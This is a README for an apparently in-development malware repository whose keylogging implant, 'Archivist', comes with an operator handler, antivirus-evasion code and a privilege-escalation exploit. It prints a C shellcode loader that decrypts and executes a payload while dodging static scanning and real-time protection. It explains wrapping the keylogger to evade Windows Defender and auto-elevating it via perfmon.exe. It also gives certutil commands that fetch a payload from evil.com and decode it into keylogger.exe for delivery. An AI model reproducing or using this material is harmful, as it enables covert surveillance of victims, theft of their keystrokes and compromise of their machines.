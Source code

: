 ## Beta Development 

All files relevant to the development of this project can be found here. 

The directory structure is as follows.

```
└── Beta
    ├── archivist.py
    ├── assets
    │   ├── chroma.py
    │   ├── __init__.py
    │   ├── __init__.pyc
    │   ├── main.py
    │   ├── README.md
    │   ├── tests
    │   │   ├── __init__.py
    │   │   └── upload_test.py
    │   └── uploader
    │       ├── base.py
    │       ├── catbox.py
    │       ├── fileio.py
    │       ├── __init__.py
    │       ├── mixtape.py
    │       └── uguu.py
    ├── binary_to_hex.py
    ├── console.py
    ├── exploits
    │   ├── AV-Evasion
    │   │   ├── AVWinD.exe
    │   │   └── windefexe.c
    │   └── Priv-Esc
    │       ├── ExamplePayload
    │       │   ├── Payload.cpp
    │       │   ├── Payload.exe
    │       │   └── Readme.md
    │       ├── PerformanceMonitorVolatileEnvironmentLPE
    │       │   ├── c_cpp_properties.json
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.cpp
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.vcxproj
    │       │   └── PerformanceMonitorVolatileEnvironmentLPE.vcxproj.filters
    │       ├── PerformanceMonitorVolatileEnvironmentLPE.sln
    │       └── README.md
    ├── REAME.md
    └── Scripts
        ├── helper.bat
        ├── README.md
        ├── shell.py
        └── shell.vbs

```


`archivist.py` Is the main keylogging implant.
`console.py` Will be Archivists handler, facilitating comms between the implant
and operator.

These files are in active development.

The `binary_to_hex.py` file is here because it will potentially be incorperated into the way the
keylogger is going to be deployed. If you go to `exploits/AV-Evasion` in this repo there will be a C
file there the contents of which look a little like below.

```
#include <Windows.h>
#include <rc4.h>

// The encrypted code allows us to get around static scanning
unsigned char buf[] = 
"\x67\xc6\xe9\xe7\x07\x0a\x37\x3b\x63\xf0\xfd\x02\xc3\x23\xcd" // Truncated 
"\xf3\xbe\x80\x69\x18\x24\xb3\xf9\x96\x3e";		       // Truncated 


int main() {
  int lpBufSize = sizeof(int) * 700;
  LPVOID lpBuf = VirtualAlloc(NULL, lpBufSize, MEM_COMMIT, 0x00000040);
  memset(lpBuf, '\0', lpBufSize);

  HANDLE proc = OpenProcess(0x1F0FFF, false, 4);
  // Checking NULL allows us to get around Real-time protection
  if (proc == NULL) {
    RC4("vXJDRPBUBnXKFphOMNzDZTCjnpbYhYDIMPBoYGotFWsBegm", buf, (char*) lpBuf, 700);
    void (*func)();
    func = (void (*)()) lpBuf;
    (void)(*func)();
  }

  return 0;
}
```

The implant is represented by the shell code you can see above. This 
shell code can be replaced by custom shell code. Which is what we are going to 
do. 

Once the main logger file has been compiled we will use the `binary_to_hex.py`
script to get a representation of the binary data in hex/shell code. Running
`use windows/windows_defender_exe` in `msfconsole` and setting the payload, to
our custom shell code we will end up with an executable that will attempt to 
make it harder for Windows Defender to get in the way of our keylogging operations.

Of course the keylogger itself has some anti-forensic and AV evasive routines
itself but a little more might be helpful.


Also in `exploits` directory can be found a C++ file and some related project files.
this is a privilege escalation exploit originally developed by Martin Fischer of Bytecode77.
Whom you can fin on github by clicking [here](https://github.com/bytecode77) and
online over at his [website](https://bytecode77.com). I suggest checking both out
he's got some amazing projects.

The exploit makes it so our binary keylogger file gets auto-elevated through Volatile Environment and
perfmon.exe. 


On the question of how to get the malware to the target, i will leave that up
to your imagination. However `Magic Unicorn Attack Vector` by [Dave Kennedy](https://twitter.com/HackingDave)
from [TrustedSec](https://trustedsec.com) has the ability to encode a binary as cert file.

`python unicorn.py <path_to_payload/exe_encode> crt`

The beauty of this is that the `certutil` on Windows can be used to both download and
restore such files back to `exe`. If you're able to run:

```
certutil -urlcache -split -f http://evil.com/keylogger.crt keylogger.crt
certutil -decode keylogger.crt keylogger.exe
```

Through remote code injection, or what have you. That would be a pretty effective way of delivering
the malware.   
